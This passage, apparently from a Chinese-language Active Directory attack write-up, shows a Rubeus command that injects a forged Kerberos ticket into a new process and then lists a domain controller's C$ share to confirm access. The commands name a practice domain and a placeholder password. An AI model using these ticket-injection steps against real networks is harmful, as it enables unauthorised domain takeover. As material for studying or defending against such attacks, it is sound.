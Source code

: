 [![](assets/1707953845-b007463d26f70c48e4e7cf7ce6a424cd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040821-4f7d53b4-c462-1.png)

控制台太小截图不完整，应该用最后生成修改的票据：

[![](assets/1707953845-ecec3997ebb5b935b1ba730773ab2cd4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040829-543d873e-c462-1.png)

复制到/ticket 后面，执行如下命令，这将把票据注入特定进程：

```plain
execute-assembly C:\tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:endlessparadox /username:satoru /password:FakePass /ticket:doIG·····09N
```

再次导入验证票据是否工作，攻击成功了：

```plain
ls \\ad.endlessparadox.com\c$
```
